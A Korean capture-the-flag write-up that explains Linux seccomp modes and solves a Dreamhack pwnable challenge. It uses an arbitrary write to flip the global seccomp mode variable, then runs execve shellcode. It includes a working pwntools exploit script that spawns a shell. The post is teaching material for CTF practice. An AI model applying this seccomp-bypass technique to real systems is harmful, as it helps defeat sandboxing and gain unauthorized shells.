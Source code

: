 ```yaml
---
layout: post
title:  "First Seccomp Bypass"
date:   2020-10-03
categories: ["2020","pwnable"]
update: 2020-10-03
comment: true
tags: [pwnable]
---
```






dreamhack 50등을 향한 마지막 문제로 Seccomp filtering을 우회하는 문제를 풀었다. 처음 만나본 거라서 천천히 강의 내용 읽고, 코드 읽고 풀어봤다.

# 🤔 SECCOMP?

### Introduction

![image](https://user-images.githubusercontent.com/51329156/94989512-5f870800-05b0-11eb-9d95-614e91286e02.png)

Linux kernel은 많은 `syscall`들을 유저권한의 프로세스들에게 노출시킨다. 근데 그 `syscall`들을 모두 쓰는 게 아니고, 일부만 쓰고 나머지 `syscall`들은 사용되지 않은 채로 둔다. 프로세스가 다른 위험한 `syscall`을 호출하게 두는 것은 보안상 문제가 있다. 이를 위해 사용하는 것이 **SECCOMP(SECure COMPuting mode)** 이다.

**Seccomp filtering**은 프로세스의 `syscall` 요청들을 필터링하는 매커니즘이다. 위의 사진을 보면 프로세스가 `syscall`을 한 후, filter들을 통과하지 못하면 `SIGKILL`으로 프로세스를 종료시킨다.



## ❓ HOW TO USE SECCOMP

**SECCOMP** 기능은 `prtcl()` 함수로 사용할 수 있다.

``` c
int prctl(int option, unsigned long arg2, unsigned long arg3, unsigned long arg4, unsigned long arg5);
```

`option` 에 **PR_SET_SECCOMP**를 주면 **SECCOMP**를 설정할 수 있다.

**SECCOMP**를 설정할 때 사용할 수 있는 모드가 3가지 있다.

**seccomp.h**

``` c
#define SECCOMP_MODE_DISABLED	0 /* seccomp is not in use. */
#define SECCOMP_MODE_STRICT	1 /* uses hard-coded filter. */
#define SECCOMP_MODE_FILTER	2 /* uses user-supplied filter. */
```

### SECCOMP_MODE_STRICT

`read`, `write`, `exit`, `sigreturn` 시스템 콜의 호출만 허용하고, 이외의 시스템 콜의 호출 요청이 들어오면 SIGKILL 시그널을 발생하고 프로그램을 종료한다.

아래처럼 설정한다:

``` c
prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT);
```



### SECCOMP_MODE_FILTER

필터링할 시스템 콜을 직접 지정해준다. 시스템콜을 관리할 때 **BPF(Berkeley Packet Filter)**라는 필터식을 이용해서 관리한다. **BPF**는 네트워크 패킷을 필터링하기 위해 만들어진 필터링 매커니즘인데, **SECCOMP**를 사용할 때도 이를 사용해 필터를 작성한다.

이 모드를 사용하려면 `no_new_privs` 비트가 설정되어 있어야 한다.

``` c
prctl(PR_SET_NO_NEW_PRIVS, 1)
```

그리고나서 아래처럼 설정한다:

```
prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, args);
```

이 모드를 사용할 때는 세 번째 인자로 전달되는 구조체인 `sock_fprog`에 대한 이해가 필요한데, 이 부분은 문제랑은 상관이 없어서 패스하도록 하겠다.



# SECCOMP BYPASS

### 🔎 Code

필요한 부분만 추려봤다:

``` c
...
int mode = SECCOMP_MODE_STRICT;
...
    if ( prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) == -1 ) {
        perror("prctl(PR_SET_NO_NEW_PRIVS)\n");
        return -1;
        }
    if ( prctl(PR_SET_SECCOMP, mode, &prog) == -1 ) {
        perror("Seccomp filter error\n");
        return -1;
        }
...
shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
...
    switch(idx) {
            case 1:
                if(cnt != 0) {
                    exit(0);
                }

                syscall_filter();
                printf("shellcode: ");
                read(0, shellcode, 1024);
                cnt++;
                break;
            case 2:
                sc = (void *)shellcode;
                sc();
                break;
            case 3:
                printf("addr: ");
                scanf("%ld", &addr);
                printf("value: ");
                scanf("%ld", addr);
                break;
            default:
                break;
        }
```

이상하다고 느낀 점 👓

- 배울 때는 **FILTER_MODE** 일 때 `prctl()`에게 세 번째 인자로 `sock_fprog`의 주솔르 준다고 배웠다. 근데 **STRICT_MODE**인데도 줬다.
- `PR_SET_NO_NEW_PRIVS`도 마찬가지..

코드는 간단하다. `READ|WRITE|EXEC` 권한을 준 영역이 있다. 쉘코드를 입력할 수 있고, 실행도 할 수 있다. 원하는 주소에 값을 넣는 것도 가능하다.

일반적으로 사용하는 쉘코드는 `execve('/bin/sh')`의 기계어 코드다. `execve`는 **STRICT_MODE**에서 허용되지 않는 시스템 콜이다. 그래서 어떻게 우회해야 하지 생각하다가 `case 3`과 아까 이상하다고 느낀 점이 딱 맞아떨어져서 풀었다.

`mode`가 전역변수로 선언되어 있고, PIE가 꺼져있기 때문에 주소를 구할 수 있다. 현재 그 주소에 들어있는 값은 `0x1`이다. 이 것을  `0x2`로 바꿔주면  설정해준 필터가 없기 때문에 모든 시스템 콜을 사용할 수 있다! 그러면 `execve` 시스템 콜을 사용해서 쉘을 딸 수 있다 (`0x0`도 가능) 👍

### 🚀 Exploit

값을 바꾸기 전 **SECCOMP_MODE_STRICT**로 설정되어 있는 `mode` 변수 :

![image](https://user-images.githubusercontent.com/51329156/94990260-a297aa00-05b5-11eb-9a2a-6edf7f51e7ef.png)

저 변수의 값을 `case 3`을 이용해 `0x2`로 바꿔준다.

![image](https://user-images.githubusercontent.com/51329156/94990326-2b164a80-05b6-11eb-96c4-96b59eed8e92.png)

64비트 쉘코드를 `case 1`을 이용해 쓴다.

![image](https://user-images.githubusercontent.com/51329156/94990246-7bd97380-05b5-11eb-9d76-fe7f3cd4abcb.png)

`case 2`를 이용해 실행하면 된다.

#### ex.py

``` python
#!/usr/bin/python
# coding=utf-8
from pwn import *
import sys

context.arch = 'x86_64'
context.log_level='debug'

if len(sys.argv)!=2:
    log.info("try 'python ex.py -l' for local")
    log.info("try 'python ex.py -r' for remote")
    exit(0)

if sys.argv[1]=="-r":
    p = remote('🤐',22463)
elif sys.argv[1]=="-l":
    p = process('🤐')
else:
    log.info("options: -l for local, -r for remote")
    exit(0)

e=ELF('🤐')

# Adderss
mode_addr=e.symbols['mode']

log.info("mode address: {}".format(hex(mode_addr)))
shellcode=asm(shellcraft.amd64.linux.sh())

p.sendlineafter("> ","3")
p.sendlineafter("addr: ",str(mode_addr))
p.sendlineafter("value: ",str(2))


p.sendlineafter("> ","1")
p.sendlineafter("shellcode: ",shellcode)

p.sendlineafter("> ","2")

p.interactive()
```



![image-20201003202457446](C:\Users\a\AppData\Roaming\Typora\typora-user-images\image-20201003202457446.png)

❗ 새로 배운 개념이긴 했는데 문제가 워낙 쉽고 저번에 디버깅 연습해놓은 게 있어서 생각보다 금방 풀었다 !